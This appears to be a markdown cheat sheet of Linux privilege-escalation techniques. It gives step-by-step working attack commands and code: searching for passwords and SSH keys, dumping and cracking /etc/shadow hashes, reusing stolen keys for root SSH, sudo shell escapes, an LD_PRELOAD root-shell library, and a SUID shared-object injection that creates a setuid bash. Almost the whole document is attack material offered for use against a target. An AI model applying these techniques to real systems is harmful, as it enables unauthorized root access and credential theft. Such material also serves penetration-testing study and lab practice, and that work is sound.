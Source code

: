 # Linux Privesc

- [1. Search Stored Passwords from Config Files](#1-search-stored-passwords-from-config-files)
- [2. Fetching Passwords from /etc/shadow](#2-fetching-passwords-from-etcshadow)
- [3. Escalate Privileges with SSH Key](#3-escalate-privileges-with-ssh-key)
- [4. Shell Escaping via Sudo](#4-shell-escaping-via-sudo)
- [5. Using LD PRELOAD](#5-Using-LD-PRELOAD)
- [6. Privilege Escalation via SUID](#6-Privilege-Escalation-via-SUID)

## 1. Search Stored Passwords from Config Files
### Commands to Find Passwords and SSH Keys
- Search for all config files:
  ```sh
  find / -type f -name "config" 2>/dev/null
  ```
- Search for files containing the word "password":
  ```sh
  find / -type f -exec grep -il "password" {} 2>/dev/null \;
  ```
- Search for config files containing the word "password":
  ```sh
  find / -type f -name "config" -exec grep -il "password" {} 2>/dev/null \;
  ```
- Search for SSH keys:
  ```sh
  find / -name id_rsa 2>/dev/null
  ```
- Search command history for "password":
  ```sh
  history | grep -i "password"
  ```

## 2. Fetching Passwords from /etc/shadow
### Steps to Extract and Crack Password Hashes
1. Extract the `/etc/passwd` file:
   ```sh
   cat /etc/passwd
   ```
   Save output to `passwd.txt`.
2. Extract the `/etc/shadow` file:
   ```sh
   cat /etc/shadow
   ```
   Save output to `shadow.txt`.
3. Combine `passwd.txt` and `shadow.txt` into an unshadowed file:
   ```sh
   unshadow passwd.txt shadow.txt > unshadow.txt
   ```
4. Crack the hashes using Hashcat with the `rockyou.txt` wordlist:
   ```sh
   hashcat -m 1800 unshadow.txt rockyou.txt -O
   ```

## 3. Escalate Privileges with SSH Key
### Steps to Gain Root Access Using SSH Keys
1. Locate `authorized_keys` or `id_rsa` files:
   ```sh
   find / -name authorized_keys 2>/dev/null
   ```
   or
   ```sh
   find / -name id_rsa 2>/dev/null
   ```
2. Save the `id_rsa` file to your machine.
3. Set appropriate permissions for the `id_rsa` file:
   ```sh
   chmod 400 id_rsa
   ```
4. Attempt to access the root shell on the target machine:
   ```sh
   ssh -i id_rsa root@<target-ip>
   ```

## 4. Shell Escaping via Sudo
### Steps to Escalate Privileges Using Sudo
1. Check for sudo permissions:
   ```sh
   sudo -l
   ```
   
![Screenshot From 2025-05-09 22-29-02](https://github.com/user-attachments/assets/0c5884f1-c62c-4203-a7b6-7e503ae49065)<br>

   Output will show commands that can be run as root without a password.
   
1. Exploit passwordless sudo access to gain a root shell using one of the following:

   ```sh
   sudo find /bin -name nano -exec /bin/sh \;
   sudo awk 'BEGIN {system("/bin/sh")}'
   echo "os.execute('/bin/sh')" > shell.nse && sudo nmap --script=shell.nse
   sudo vim -c '!sh'
   ```
2. Abusing Intended Functionality

   ```sh
   sudo apache2 -f /etc/shadow
   ```
Here, we're telling Apache (with root privileges) to treat /etc/shadow as its configuration file — which is not a valid Apache config, so Apache will try to parse it and fail, which will throw an error message with the hash from /etc/shadow. Now, save the hash in a file hash.txt and we can crack this hash using hashcat or john.
<br>

![Screenshot From 2025-05-09 23-08-43](https://github.com/user-attachments/assets/39d9ca62-ee96-48a8-86cb-fcede471e40e)

## 5. Using LD PRELOAD

1. Type `nano x.c` and paste the code and save:
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```
2. Now type:
```sh
gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles
sudo LD_PRELOAD=/tmp/x.so apache2
id
```

## 6. Privilege Escalation via SUID

Make note of all the SUID binaries `suid-env`, `suid-env`, `suid-env2` .

```sh
find / -type f -perm -04000 -ls 2>/dev/null
```

![Screenshot From 2025-05-10 00-49-01](https://github.com/user-attachments/assets/4707d42c-8710-4a46-b854-f7630e3ffcaf)

**SUID Shared Object Injection**

1. Search if there any .so file is missing from a writable directory. `/home/user/.config/libcalc.so`

```sh
strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"
```

![Screenshot From 2025-05-10 00-45-04](https://github.com/user-attachments/assets/5741fd84-80c5-4bd3-9651-930316755759)

2. Now create a `libcalc.c` file under the `/home/user/.config/` directory and paste the code:
```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```
3. Compile and run the file:
```sh
gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c
/usr/local/bin/suid-so
id
```

**SUID Environment Variables**

1. Search if there is any env variables `suid-env`

```sh
strings /usr/local/bin/suid-env
```

---

# short

getcap -r / 2>/dev/null (capabilities)

cat /etc/crontab (cron)

cat /etc/exports (nfs root)
